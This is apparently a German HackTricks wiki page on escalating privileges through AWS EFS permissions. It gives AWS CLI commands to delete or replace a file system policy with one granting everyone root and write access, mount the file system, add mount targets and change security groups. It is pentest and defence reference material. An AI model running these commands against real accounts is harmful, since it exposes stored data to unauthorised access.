 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Mehr **Info über EFS** in:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Denken Sie daran, dass Sie, um ein EFS zu mounten, sich in einem Subnetz befinden müssen, in dem das EFS exponiert ist, und Zugang dazu haben müssen (Sicherheitsgruppen). Wenn dies der Fall ist, können Sie es standardmäßig immer mounten. Wenn es jedoch durch IAM-Richtlinien geschützt ist, benötigen Sie die hier genannten zusätzlichen Berechtigungen, um darauf zuzugreifen.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Mit einer dieser Berechtigungen kann ein Angreifer **die Dateisystemrichtlinie ändern**, um **Ihnen Zugang** zu gewähren oder sie einfach **zu löschen**, sodass der **Standardzugang** gewährt wird.

Um die Richtlinie zu löschen:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Um es zu ändern:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Mit dieser Berechtigung kann ein Angreifer **das EFS einbinden**. Wenn die Schreibberechtigung standardmäßig nicht allen gewährt wird, die das EFS einbinden können, hat er nur **Lesezugriff**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die zusätzlichen Berechtigungen `elasticfilesystem:ClientRootAccess` und `elasticfilesystem:ClientWrite` können verwendet werden, um **in** das Dateisystem zu **schreiben**, nachdem es gemountet wurde, und um auf dieses Dateisystem **als root** zu **zugreifen**.

**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:CreateMountTarget`

Wenn ein Angreifer sich in einem **Subnetz** befindet, in dem **kein Mount-Ziel** des EFS existiert, könnte er einfach **eins in seinem Subnetz erstellen** mit diesem Privileg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch das Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In einem Szenario, in dem ein Angreifer feststellt, dass das EFS einen Mount-Ziel in seinem Subnetz hat, aber **keine Sicherheitsgruppe den Verkehr erlaubt**, könnte er einfach **das ändern, indem er die ausgewählten Sicherheitsgruppen ändert**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch das Auffinden sensibler Informationen im Dateisystem.

{{#include ../../../banners/hacktricks-training.md}}

